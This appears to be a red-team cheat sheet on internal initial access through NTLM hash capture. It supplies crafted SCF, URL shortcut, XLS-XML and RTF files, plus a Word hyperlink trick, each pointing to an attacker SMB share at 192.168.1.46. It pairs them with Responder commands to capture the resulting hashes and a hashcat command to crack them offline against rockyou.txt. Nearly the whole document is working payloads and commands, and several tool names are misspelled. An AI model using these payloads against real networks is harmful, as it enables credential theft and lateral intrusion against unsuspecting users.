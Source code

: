 # Internal Initial Access

***

## Shell Command Files - SCF

files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer.

#### Payload

nooranet.scf

```cmd
[Shell]
Command=2
IconFile=\\192.168.1.46\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

#### Responder

```bash
responser -I eth0 -v
```

## Execute via URL

#### payload

nss.url

```cmd
[InternetShortcut]
URL=http://nooranetred.com
WorkingDirectory=c:\
IconFile=\\192.168.1.46\nss.icon
IconIndex=1
```

#### Responder

```bash
responser -I eth0 -v
```

## Execute via XLS

#### nooranet.xls

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" href="\\192.168.1.46\1.xsl" ?>
```

#### Responder

```bash
responser -I eth0 -v
```

## Rich Text Format - RTF

#### nss.rtf

```rtf
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://192.168.1.46/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```

#### Responder

```bash
responser -I eth0 -v
```

### NTLM Crack offline

```bash
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

## Execution via hyperlink

1. Create a word docuemnt 
2. Inser a link and type file://192.168.1.46/test.exe
3. Run response -I eth0 -v
4. hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force